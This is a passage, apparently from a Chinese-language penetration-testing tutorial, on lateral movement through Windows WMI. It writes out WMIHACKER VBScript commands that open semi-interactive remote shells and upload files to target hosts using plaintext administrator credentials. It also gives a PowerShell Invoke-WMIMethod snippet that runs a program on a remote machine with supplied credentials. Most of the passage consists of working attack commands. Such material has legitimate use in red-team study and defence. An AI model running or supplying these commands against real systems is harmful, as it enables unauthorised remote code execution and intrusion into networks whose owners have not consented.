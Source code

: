 ```
#获取半交互式shell
cscript.exe wmihacker.vbs /shell 192.168.8.179 Administrator "win@123"
```

工作组内获取半交互式shell

[![](https://p0.ssl.qhimg.com/t01ac0575b4c0f86151.png)](https://p0.ssl.qhimg.com/t01ac0575b4c0f86151.png)

```
#获取半交互式shell
cscript.exe wmihacker.vbs /shell 10.10.0.10 win16 "win16"
```

域内获取半交互式shell

[![](https://p0.ssl.qhimg.com/t01fb1cf4dee8661c2f.png)](https://p0.ssl.qhimg.com/t01fb1cf4dee8661c2f.png)

```
#将本地calc.exe复制到远程主机c:\calc.exe
cscript wmihacker_0.6.vbs /upload 192.168.8.179 administrator "win@123" "c:\windows\system32\calc.exe" "c:\calc"
```

工作组内进行文件上传

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t011470fbef960659a3.png)

上传成功

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01815357bc3973cf9d.png)

**<a class="reference-link" name="Invoke-WMIMethod"></a>Invoke-WMIMethod**

> ***注意**：该模块为Powershell内置模块，以下为示例，可以自由组合命令进行测试。示例在Windows2008R2、Windows2012R2、Windows2016均测试成功。*

```
$User            #目标系统用户名
$Password        #目标系统密码
$Cred            #账号密码整合，导入Credential
Invoke-WMIMethod #远程运行指定程序
#####---------------------------#####

$User = "WIN-D5IP32RU4A9\administrator"
$Password= ConvertTo-SecureString -String "win@123" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User , $Password
Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.8.179" -Credential $Cred
```

执行Powershell命令，成功创建运行cmd.exe，进程号为3192
